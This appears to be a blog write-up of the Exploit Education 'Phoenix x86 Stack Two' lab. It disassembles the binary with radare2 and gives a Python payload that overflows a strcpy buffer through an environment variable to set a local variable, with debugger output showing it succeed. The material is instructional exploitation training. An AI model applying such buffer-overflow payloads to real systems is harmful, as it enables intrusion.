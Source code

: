 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Two"
date: "2019-10-12 10:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Stack Two is the continuation of the stack-based buffer overflow challenges.

Once more, `rabin2` is used to get some information about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-two 
arch     x86
baddr    0x8048000
binsz    3750
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Of the important info above, everything is the same as the previous levels. The binary is a 32-bit Linux ELF with no protection against stack overflow.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-two
{% endhighlight %}

{%highlight nasm %}
[0x080483b0]> aas
Cannot analyze at 0x08048630
[0x080483b0]> afl
0x0804831c    1 17           sym._init
0x08048500    7 277  -> 112  sym.frame_dummy
0x080485f0    5 49           sym.__do_global_ctors_aux
0x08048621    1 12           sym._fini
0x08048480    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   49 556  -> 650  sym..interp
0x080483b0    1 62           entry0
0x080483a0    1 6            sym.imp.__libc_start_main
0x08048744    1 14           loc.__GNU_EH_FRAME_HDR
0x08048760    3 34           sym..eh_frame
0x0804879c    1 41           obj.__EH_FRAME_BEGIN
0x080483f0    4 49   -> 40   sym.deregister_tm_clones
0x08048545    6 156          main
0x08048370    1 6            sym.imp.puts
0x08048360    1 6            sym.imp.getenv
0x08048380    1 6            sym.imp.errx
0x08048340    1 6            sym.imp.strcpy
0x08048350    1 6            sym.imp.printf
0x08048390    1 6            sym.imp.exit
[0x080483b0]> s main
[0x08048545]> pdf
/ (fcn) main 156
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_50h @ ebp-0x50
|           ; var int32_t var_10h @ ebp-0x10
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483e4
|           0x08048545      8d4c2404       lea ecx, [arg_4h]
|           0x08048549      83e4f0         and esp, 0xfffffff0
|           0x0804854c      ff71fc         push dword [ecx - 4]
|           0x0804854f      55             push ebp
|           0x08048550      89e5           mov ebp, esp
|           0x08048552      51             push ecx
|           0x08048553      83ec54         sub esp, 0x54
|           0x08048556      83ec0c         sub esp, 0xc
|           0x08048559      6830860408     push str.Welcome_to_phoenix_stack_two__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048630 ; "Welcome to phoenix/stack-two, brought to you by https://exploit.education"
|           0x0804855e      e80dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048563      83c410         add esp, 0x10
|           0x08048566      83ec0c         sub esp, 0xc
|           0x08048569      687a860408     push str.ExploitEducation   ; 0x804867a ; "ExploitEducation"
|           0x0804856e      e8edfdffff     call sym.imp.getenv         ; char *getenv(const char *name)
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [var_ch], eax
|           0x08048579      837df400       cmp dword [var_ch], 0
|       ,=< 0x0804857d      750f           jne 0x804858e
|       |   0x0804857f      83ec08         sub esp, 8
|       |   0x08048582      688c860408     push str.please_set_the_ExploitEducation_environment_variable ; 0x804868c ; "please set the ExploitEducation environment variable"
|       |   0x08048587      6a01           push 1                      ; 1
|       |   0x08048589      e8f2fdffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804858e      c745f0000000.  mov dword [var_10h], 0
|           0x08048595      83ec08         sub esp, 8
|           0x08048598      ff75f4         push dword [var_ch]
|           0x0804859b      8d45b0         lea eax, [var_50h]
|           0x0804859e      50             push eax
|           0x0804859f      e89cfdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x080485a4      83c410         add esp, 0x10
|           0x080485a7      8b45f0         mov eax, dword [var_10h]
|           0x080485aa      3d0a090a0d     cmp eax, 0xd0a090a
|       ,=< 0x080485af      7512           jne 0x80485c3
|       |   0x080485b1      83ec0c         sub esp, 0xc
|       |   0x080485b4      68c4860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x80486c4 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x080485b9      e8b2fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x080485be      83c410         add esp, 0x10
|      ,==< 0x080485c1      eb14           jmp 0x80485d7
|      |`-> 0x080485c3      8b45f0         mov eax, dword [var_10h]
|      |    0x080485c6      83ec08         sub esp, 8
|      |    0x080485c9      50             push eax
|      |    0x080485ca      6808870408     push str.Almost__changeme_is_currently_0x_08x__we_want_0x0d0a090a ; 0x8048708 ; "Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n"
|      |    0x080485cf      e87cfdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x080485d4      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485c1
|      `--> 0x080485d7      83ec0c         sub esp, 0xc
|           0x080485da      6a00           push 0
\           0x080485dc      e8affdffff     call sym.imp.exit           ; void exit(int status)
[0x08048545]> agf
[0x08048545]>  # int main (int argc, char **argv, char **envp);
                    .---------------------------------------------------------------------------------------.
                    |  0x8048545                                                                            |
                    | (fcn) main 156                                                                        |
                    |   int main (int argc, char **argv, char **envp);                                      |
                    | ; var int32_t var_50h @ ebp-0x50                                                      |
                    | ; var int32_t var_10h @ ebp-0x10                                                      |
                    | ; var int32_t var_ch @ ebp-0xc                                                        |
                    | ; arg int32_t arg_4h @ esp+0x4                                                        |
                    | ; DATA XREF from entry0 @ 0x80483e4                                                   |
                    | lea ecx, [arg_4h]                                                                     |
                    | and esp, 0xfffffff0                                                                   |
                    | push dword [ecx - 4]                                                                  |
                    | push ebp                                                                              |
                    | mov ebp, esp                                                                          |
                    | push ecx                                                                              |
                    | sub esp, 0x54                                                                         |
                    | sub esp, 0xc                                                                          |
                    | ; sym..rodata                                                                         |
                    | ; 0x8048630                                                                           |
                    | ; "Welcome to phoenix/stack-two, brought to you by https://exploit.education"         |
                    | push str.Welcome_to_phoenix_stack_two__brought_to_you_by_https:__exploit.education    |
                    | ; int puts(const char *s)                                                             |
                    | call sym.imp.puts;[oa]                                                                |
                    | add esp, 0x10                                                                         |
                    | sub esp, 0xc                                                                          |
                    | ; 0x804867a                                                                           |
                    | ; "ExploitEducation"                                                                  |
                    | push str.ExploitEducation                                                             |
                    | ; char *getenv(const char *name)                                                      |
                    | call sym.imp.getenv;[ob]                                                              |
                    | add esp, 0x10                                                                         |
                    | mov dword [var_ch], eax                                                               |
                    | cmp dword [var_ch], 0                                                                 |
                    | jne 0x804858e                                                                         |
                    `---------------------------------------------------------------------------------------'
                            f t
                            | |
                            | '---------------------------------------------.
    .-----------------------'                                               |
    |                                                                       |
.------------------------------------------------------------------.    .---------------------------------------------.
|  0x804857f                                                       |    |  0x804858e                                  |
| sub esp, 8                                                       |    | mov dword [var_10h], 0                      |
| ; 0x804868c                                                      |    | sub esp, 8                                  |
| ; "please set the ExploitEducation environment variable"         |    | push dword [var_ch]                         |
| push str.please_set_the_ExploitEducation_environment_variable    |    | lea eax, [var_50h]                          |
| ; 1                                                              |    | push eax                                    |
| push 1                                                           |    | ; char *strcpy(char *dest, const char *src) |
| ; void errx(int eval)                                            |    | call sym.imp.strcpy;[od]                    |
| call sym.imp.errx;[oc]                                           |    | add esp, 0x10                               |
`------------------------------------------------------------------'    | mov eax, dword [var_10h]                    |
                                                                        | cmp eax, 0xd0a090a                          |
                                                                        | jne 0x80485c3                               |
                                                                        `---------------------------------------------'
                                                                                f t
                                                                                | |
                                                                                | '---------------------.
                  .-------------------------------------------------------------'                       |
                  |                                                                                     |
              .--------------------------------------------------------------------------------.    .----------------------------------------------------------------------.
              |  0x80485b1                                                                     |    |  0x80485c3                                                           |
              | sub esp, 0xc                                                                   |    | mov eax, dword [var_10h]                                             |
              | ; 0x80486c4                                                                    |    | sub esp, 8                                                           |
              | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                             |
              | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x8048708                                                          |
              | ; int puts(const char *s)                                                      |    | ; "Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n"       |
              | call sym.imp.puts;[oa]                                                         |    | push str.Almost__changeme_is_currently_0x_08x__we_want_0x0d0a090a    |
              | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                     |
              | jmp 0x80485d7                                                                  |    | call sym.imp.printf;[oe]                                             |
              `--------------------------------------------------------------------------------'    | add esp, 0x10                                                        |
                  v                                                                                 `----------------------------------------------------------------------'
                  |                                                                                     v
                  |                                                                                     |
                  '----------------------------------------------------------------.                    |
                                                                                   | .------------------'
                                                                                   | |
                                                                             .-----------------------------------.
                                                                             |  0x80485d7                        |
                                                                             | ; CODE XREF from main @ 0x80485c1 |
                                                                             | sub esp, 0xc                      |
                                                                             | push 0                            |
                                                                             | ; void exit(int status)           |
                                                                             | call sym.imp.exit;[of]            |
                                                                             `-----------------------------------'
{% endhighlight %}

What differs from the previous level is the fact that the input is read via an environment variable. The objective remains the same, which is to overwrite a local variable, `var_10h`. This is feasible because there is a call to `strcpy` that copies the contents of the environment variable `ExploitEducation` to the buffer `var_50h`.

The value that needs to be put in `var_10h` is `0xd0a090a`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x0a\x09\x0a\x0d')
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
$ export ExploitEducation=`cat pattern`
{% endhighlight %}

Now the binary can be debugged.

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-two
{% endhighlight %}

{% highlight nasm %}
[0xf7ed0d4b]> aas
Cannot analyze at 0x08048630
[0xf7ed0d4b]> db 0x0804859f
[0xf7ed0d4b]> dc
Welcome to phoenix/stack-two, brought to you by https://exploit.education
hit breakpoint at: 804859f
[0x0804859f]> dr
eax = 0xffba6fb8
ebx = 0xf7f06000
ecx = 0x0000006e
edx = 0x00000010
esi = 0xffba7094
edi = 0x00000001
esp = 0xffba6fa0
ebp = 0xffba7008
eip = 0x0804859f
eflags = 0x00000292
oeax = 0xffffffff
[0x0804859f]> px/24xw 0xffba6fa0
0xffba6fa0  0xffba6fb8 0xffba7caf 0x00000084 0x00000010  .o...|..........
0xffba6fb0  0x0804831c 0x08048621 0x00000000 0x00000063  ....!.......c...
0xffba6fc0  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffba6fd0  0x00000011 0xf7f0819c 0x00000000 0x080482e4  ................
0xffba6fe0  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffba6ff0  0x00000000 0x00000000 0x00000000 0xffba7caf  .............|..
[0x0804859f]> px/xw 0xffba7008-0x10
0xffba6ff8  0x00000000                                   ....
[0x0804859f]> dso
hit breakpoint at: 80485a4
[0x0804859f]> px/24xw 0xffba6fa0
0xffba6fa0  0xffba6fb8 0xffba7caf 0x00000084 0x00000010  .o...|..........
0xffba6fb0  0x0804831c 0x08048621 0x58585858 0x58585858  ....!...XXXXXXXX
0xffba6fc0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6fd0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6fe0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6ff0  0x58585858 0x58585858 0x0d0a090a 0xffba7c00  XXXXXXXX.....|..
[0x0804859f]> px/xw 0xffba7008-0x10
0xffba6ff8  0x0d0a090a                                   ....
[0x0804859f]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level is almost identical to the previous one, with one little difference. That is, the input needs to be passed through an environment variable and not as an argument.
